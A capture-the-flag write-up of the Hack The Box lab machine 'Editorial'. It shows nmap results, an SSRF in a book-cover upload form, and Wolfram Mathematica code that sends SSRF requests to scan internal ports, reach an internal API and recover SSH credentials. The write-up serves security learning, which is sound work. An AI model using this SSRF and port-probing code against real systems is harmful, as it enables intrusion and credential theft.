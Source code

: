 Editorial (https://app.hackthebox.com/machines/608) from Hack The Box is vulnerable by design Linux machine and was part of their Season 5 competition. At the time, I was knee-deep in my OSEP studies, but I still found some time to work on other pentesting skills by trying to solve boxes for this competition. 

Initial enumeration revealed a web server running on port 80 and ssh on port 22.

```bash
Nmap scan report for editorial.htb (10.10.11.20)
Host is up, received user-set (0.095s latency).
Scanned at 2024-06-17 20:58:15 EDT for 98s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMApl7gtas1JLYVJ1BwP3Kpc6oXk6sp2JyCHM37ULGN+DRZ4kw2BBqO/yozkui+j1Yma1wnYsxv0oVYhjGeJavM=
|   256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMXtxiT4ZZTGZX4222Zer7f/kAWwdCWM/rGzRrGVZhYx
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-title: Editorial Tiempo Arriba
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
|_http-server-header: nginx/1.18.0 (Ubuntu)
```

I launched a web browser to review the site, which redirected to hxxp[://]editorial[.]htb, but the page didn’t load since editorial.htb didn't resolve. After adding editorial.htb and its IP address to /etc/hosts, I reloaded the page and could access it.

Soon after, I found a page with a "Book information" form and started testing it. The first field allowed me to enter a URL, so I provided one that pointed back to the IP address of my VPN interface on my Kali VM. I then started a netcat listener on port 80 on my VM.

![Editorial Upload Page][Images/UWLPT/01-ssrf.png]

After a couple of false starts, I was able to determine that I needed to select "Preview" to receive a connection back. I was using Burp Suite to allow me to easily change the request for testing. Forwarding the Request along results in a response that directs to a JPEG image file.


![Netcat listener connection along with BurpSuite Request and Response](Images/UWLPT/02-ssrf-confirmed.png)

Based on the response, it seems we're looking at an Server-Side Request Forgery (SSRF) after making a request to localhost (aka 127.0.0.1) and it points to the same JPEG file.


![Probing localhost](Images/UWLPT/04-localhost.png)

My next approach was to determine if another web server or service was running locally. To test this, I needed to scan all 65,535 possible TCP ports internally. While testing each port isn't challenging, automating it requires crafting requests that dynamically insert each port, like` http://127.0.0.1:FUZZ`, and then reviewing the responses. Although tools like ffuf are well-suited for this task, I decided to experiment with Wolfram Mathematica to explore its potential in this context.

I started by taking a basic HTTP request template from Burp Suite and converting it into a function template in Wolfram Language that allowed for port insertion. While I’m not a pro with Wolfram Language, the solution worked for this purpose. Below is the code that makes these requests. It takes a port number as input, and if the response body doesn’t contain /static/images/, it outputs the port and response body. If /static/images/ is found, it simply prints the port number to confirm the code's functionality.

```mathematica
makeRequests[port_]:=Module[{boundary,bt,request,response},
boundary="---------------------------452647181736560613536731952";
bt=StringTemplate["
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookurl\"

http://127.0.0.1:``
-----------------------------452647181736560613536731952
Content-Disposition: form-data; name=\"bookfile\"; filename=\"\"
Content-Type: application/octet-stream


-----------------------------452647181736560613536731952--
"][port];
request=HTTPRequest["http://editorial.htb/upload-cover",<|"Method"->"POST","Headers"->{"Host"->"editorial.htb","User-Agent"->"Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0","Accept"->"*/*","Accept-Language"->"en-US,en;q=0.5","Accept-Encoding"->"gzip, deflate, br","Content-Type"->"multipart/form-data; boundary="<>boundary,"Content-Length"->ToString[StringLength[bt]],"Origin"->"http://editorial.htb","Referer"->"http://editorial.htb/upload"},"Body"->bt|>];
response=URLRead[request];
If[!StringContainsQ[response["Body"],"/static/images/"],Print[<|port->response["Body"]|>],Print[port]]
]
```

I didn't want to run over all +65k ports, so I started with a list of commonly using web ports.

```mathematica
popularWebserverPorts={"80","443","8080","8443","8000","8888","8081","8444","3000","9000","5000","8082","9090","8880"};
```

Execute our code and see what happens.

```mathematica
makeRequests[#]&/@popularWebserverPorts
```

On port 5000, there is a URL fragment which doesn't point to a JPEG.

![](Images/UWLPT/12-wl-popular-web-service-ports.png)

Fortunately, one can "see" the contents of these links through the main website. I had tested the JPEG file earlier in the browser. We can make a request for this file.

```mathematica
URLRead[HTTPRequest["http://editorial.htb/static/uploads/4fceb143-596a-4068-999c-b3ff4003f166"]]
```

This request returns a JSON respose. 

![JSON Response Text](Images/UWLPT/14-wl-json.png)

Let's retrieve all the endpoints, and as one can see below, login credentials are retrieved.

![Credentials for dev](Images/UWLPT/15-wl-found-password.png)

I was able to use the credentials to get a shell on the machine using ssh impersonating dev. While enumerating and finding the initial exploit didn't use standard hacker tools, I did find devising an alternative exploit tool using Wolfram Mathematica satisfying. 